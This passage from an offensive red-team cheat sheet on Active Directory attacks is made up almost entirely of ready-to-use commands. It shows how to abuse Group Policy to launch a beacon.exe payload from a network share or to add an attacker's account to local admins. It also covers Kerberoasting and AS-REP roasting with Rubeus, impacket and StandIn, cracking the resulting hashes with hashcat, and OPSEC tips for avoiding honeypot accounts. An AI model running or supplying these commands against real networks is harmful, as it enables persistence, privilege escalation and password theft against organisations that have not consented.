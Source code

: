 	- Run code via HKLM or HKCU when user logs in \(RSAT\): `Set-GPPrefRegistryValue -Name "<target GPO name>" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\<path to network share>\beacon.exe" -Type ExpandString`
	- Immediate task run when GPO is applied \([SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)\): `SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" –Author “NT AUTHORITY\SYSTEM” --Command "%COMSPEC%" --Arguments "/b /c start /b /min \\<path to network share>\beacon.exe" --GPOName "<vulnerable GPO>"`
	- Adding excisting domain account to local admin group \(SharpGPOAbuse\): `SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <user account you control> --GPOName "<vulnerable GPO>"`
- 4\. Wait until to GPO and therefore the payload it triggered \(can take several hours for the target system\(s\) to update their GPO's\)\.


---
### __Kerberos abuse:__
#### _Kerberos time sync:_
Make sure the time of your attacker system is in sync with the target DC clock skew\.
- 1\. Check time skew of target DC: `ntpdate <ip target DC>`
- 2\. Modify your system's time so it is in sync with the target DC: `timedatectl set-time 21:11:00`

#### _Kerberoasting:_
Kerberoasting is the technique where accounts with a Service Principal Name \(SPN\) set are targeted for their hashes in an attempt to recover them\. 
- 1\. Get a list of all kerberoastable accounts: 
	- \([C2\-Tool\-Collection-BOF](https://github.com/outflanknl/C2-Tool-Collection)\): `Kerberoast list`
	- \([StandIn](https://github.com/FuzzySecurity/StandIn)\): `Standin.exe –spn`
	- \([windapsearch](https://github.com/ropnop/go-windapsearch/releases)\): `./windapsearch-linux-amd64 -d <target DC ip> (-u <usename>@<FQDN>) (-p "<password>") -m user-spns`
- 2\. Based on the returned scan results, do some further enumeration to minimize the risk the found kerberoastable account is a honey\-pot:
	- Does the SPN name make any sense?
	- AdminCount \(0 or 1\)?
	- Account age and description
	- Domain Groups
	- Password last set 
	- Logon counts
- 3\. Recover hash (OPSEC: roast only a specific user account based on the recon results):
	- \([C2\-Tool\-Collection-BOF](https://github.com/outflanknl/C2-Tool-Collection)\): `Kerberoast roast (<specific account>)`
	- \([Rubeus](https://github.com/GhostPack/Rubeus)\): `rubeus.exe kerberoast (/user:<username>) (/simple) /nowrap (/domain:<target domain>)`
	- \([impacket](https://github.com/SecureAuthCorp/impacket)\): `GetUserSPNs.py <FQDN>/<username>(:<password>) -request -dc-ip <DC IP> -format hashcat (-hashes <NTLM>)`
- 4\. Recover password from extracted hash \(hashcat\): `hashcat -m 13100 <hash file> <wordlist>`

#### _AS\-REP Roast attack:_
As\-rep\-roast attack exploits accounts that have kerberos preauthentication disabled to extract hashes in an attemt te recover their passwords\. 
- 1\. Get a list of all ASREP roastable accounts \([StandIn](https://github.com/FuzzySecurity/StandIn)\): `Standin.exe --asrep`
- 2\. Based on the returned scan results, do some further enumeration to minimize the risk the found roastable account is a honey\-pot \(check the points in the ‘Kerberoast’ section\)\. 
- 3\. Recover the krb5asrep hash (OPSEC: roast only a specific user account based on the recon results):
	- \([Rubeus](https://github.com/GhostPack/Rubeus)\): `rubeus.exe asreproast (/user:<username>) (/format:hashcat) /nowrap (/domain:<target domain>)`
	- \([impacket](https://github.com/SecureAuthCorp/impacket)\): `./GetNPUsers.py <FQDN>/<username>(:<password>) -dc-ip <IP DC> -format hashcat -request (-hashes <NTLM>)`
- 4\. Recover password from krb5asrep hash \(hashcat\): `hashcat -m 18200 <hash file> <wordlist>`
